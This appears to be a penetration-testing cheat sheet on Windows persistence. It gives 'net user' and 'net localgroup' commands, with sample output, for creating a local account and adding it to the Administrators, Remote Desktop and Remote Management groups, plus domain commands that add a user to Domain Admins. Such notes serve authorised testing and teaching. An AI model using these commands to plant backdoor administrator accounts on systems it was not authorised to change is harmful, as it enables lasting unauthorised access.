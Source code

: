 ```yaml
---
title: "Persistence"
date: 2024-9-30
tags: ["AddMember", "Account", "Windows", "Persistence"]
---
```


### Add local user

```console
# Create new user
net user '<USER>' '<PASSWORD>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net user test Test1234!@ /add
The command completed successfully.
```

```console
# Add user to admin group
net localgroup Administrators '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup administrators test /add
The command completed successfully.
```

```console
# Add user to remote desktop group
net localgroup "Remote Desktop Users" '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup "remote desktop users" test /add
The command completed successfully.
```

```console
# Add user to remote management group
net localgroup "Remote Management Users" '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup "Remote Management Users" test /add
The command completed successfully.
```

```console
# Check
net user <USER>
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net user test
net user test
User name                    test
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/30/2024 7:20:12 AM
Password expires             Never
Password changeable          10/1/2024 7:20:12 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/30/2024 7:24:50 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Desktop Users 
                             *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

### Add domain user

```console
net user '<USER>' '<PASSWORD>' /add /domain
```

```console
net group 'Domain Admins' '<USER>' /add /domain
```